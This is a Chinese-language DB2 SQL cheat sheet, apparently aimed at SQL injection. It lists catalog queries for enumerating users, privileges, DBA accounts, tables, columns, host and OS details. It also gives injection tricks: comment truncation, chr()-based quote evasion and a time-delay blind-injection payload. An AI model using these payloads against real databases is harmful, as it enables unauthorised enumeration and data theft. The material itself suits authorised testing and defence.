 ## 查询语句

版本信息
```sql
select versionnumber, version_timestamp from sysibm.sysversions;
select service_level from table(sysproc.env_get_inst_info()) as instanceinfo
select getvariable('sysibm.version') from sysibm.sysdummy1 -- (v8+)
select prod_release,installed_prod_fullname from table(sysproc.env_get_prod_info()) as productinfo
select service_level,bld_level from sysibmadm.env_inst_info
```

注释
 ```sql
 select blah from foo --
 ```

当前用户
 ```sql
select user from sysibm.sysdummy1
select session_user from sysibm.sysdummy1
select system_user from sysibm.sysdummy1
 ```

列出用户
 ```sql
select distinct(authid) from sysibmadm.privileges --
select grantee from syscat.dbauth --
select distinct(definer) from syscat.schemata --
select distinct(grantee) from sysibm.systabauth --
 ```

列出权限
 ```sql
select * from syscat.tabauth --
select * from syscat.tabauth where grantee = current user --
select * from syscat.dbauth where grantee = current user;;
select * from SYSIBM.SYSUSERAUTH — List db2 system privilegies
 ```

列出DBA账户
 ```sql
select distinct(grantee) from sysibm.systabauth where CONTROLAUTH='Y'
select name from SYSIBM.SYSUSERAUTH where SYSADMAUTH = ‘Y’ or SYSADMAUTH = ‘G’
 ```

当前数据库
```sql
select current server from sysibm.sysdummy1
```

列出数据库
```sql
select distinct(table_catalog) from sysibm.tables
SELECT schemaname FROM syscat.schemata;
```

列
```sql
select name, tbname, coltype from sysibm.syscolumns
```

表
```sql
select table_name from sysibm.tables
select name from sysibm.systables
```

列名称查找表
```sql
select tbname from sysibm.syscolumns where name='username'
```

选择第N行
```sql
select name from (select * from sysibm.systables order by name asc fetch first N rows only) order by name desc fetch first row only
```

选择第N个字符
```sql
select substr('abc',2,1) FROM sysibm.sysdummy1
```

按位与/或/非/异或
```sql
select bitand(1,0) from sysibm.sysdummy1  //返回为0.其它可选bitandnot、bitor、bitxor、bitnot
```

ASCII值
```sql
select chr(65) from sysibm.sysdummy1
```

字符-->ASCII值
```sql
select ascii('A') from sysibm.sysdummy1
```

Cast查询
```sql
select cast('123' as integer) from sysibm.sysdummy1
select cast(1 as char) from sysibm.sysdummy1
```

字符串拼接
```sql
select 'a' concat 'b' concat 'c' from sysibm.sysdummy1
select 'a' || 'b' from sysibm.sysdummy1
```

Case查询
```sql
select CASE WHEN (1=1) THEN 'AAAAAAAAAA' ELSE 'BBBBBBBBBB' END from sysibm.sysdummy1
```

引号规避
```sql
SELECT chr(65)||chr(68)||chr(82)||chr(73) FROM sysibm.sysdummy1
```

时间延迟
```sql
' and (SELECT count(*) from sysibm.columns t1, sysibm.columns t2, sysibm.columns t3)>0 and (select ascii(substr(user,1,1)) from sysibm.sysdummy1)=68
```

序列化为XML
```sql
select xmlagg(xmlrow(table_schema)) from sysibm.tables
select xmlagg(xmlrow(table_schema)) from (select distinct(table_schema) from sysibm.tables)
select xml2clob(xmelement(name t, table_schema)) from sysibm.tables
```

主机名/IP和操作系统
```sql
select os_name,os_version,os_release,host_name from sysibmadm.env_sys_info
```

数据库文件位置查询
```sql
select * from sysibmadm.reg_variables where reg_var_name='DB2PATH'
```

系统配置
```sql
select dbpartitionnum, name, value from sysibmadm.dbcfg where name like 'auto_%'
select name, deferred_value, dbpartitionnum from sysibmadm.dbcfg
```

默认系统数据库

> +SYSIBM
> +SYSCAT
> +SYSSTAT
> +SYSPUBLIC
> +SYSIBMADM
> +SYSTOOLs
